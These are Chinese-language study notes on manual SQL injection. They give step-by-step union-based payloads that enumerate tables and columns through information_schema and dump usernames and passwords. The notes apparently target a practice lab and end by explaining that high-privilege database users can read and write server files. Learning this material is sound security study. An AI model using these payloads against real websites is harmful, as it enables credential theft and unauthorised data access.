### 注入语句

```
尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  注入
		              ==  没有注入
		2.猜解列名数量 order by %20 空格
		字段 4个

		3.报错，判断回显点 union 
		4.信息收集 
		  数据库版本 version()
		  高版本：5.0  
			系统库： infromation 。。。
		  数据库名称：database（）
		  低版本：5.0 
		5.使用对应SQL进行注入  
			数据库库名：security
		. 下一级  
		infromation_schema.tables 查找表名
		table_name
		查询serurity库下面 所有的表名 

		database（）


		= 前后 连到一起
		union select 1,group_concat(table_name),3 from information_schema.tables
		where table_schema=database()

		表： users
		如何查询表里面有那些字段？ 
		user 字符 转行 16进制
		union select 1,group_concat(column_name),3 from information_schema.columns
		where table_name=0x7573657273

		username  password  字段数据  
		select username,password from users
		0x3a  :
		union select 1,2,(select group_concat(username,0x3a,password)from users)
		  
```

# SQL注入之高权限注入

在数据库中区分有数据库系统用户与数据库普通用户,二者的划分主要体现在对一些高级函数与资源表的访问权限上。直白一些就是高权限系统用户拥有整个数据库的操作权限,而普通用户只拥有部分已配置的权限。

网站在创建的时候会调用数据库链接,会区分系统用户链接与普通用户链接;当多个网站存在一个数据库的时候,root就拥有最高权限可以对多个网站进行管辖,普通用户仅拥有当前网站和配置的部分权限。所以当我们获取到普通用户权限时,我们只拥有单个数据库权限,甚至文件读写失败;取得高权限用户权限，不仅可以查看所有数据库,还可以对服务器文件进行读写操作。
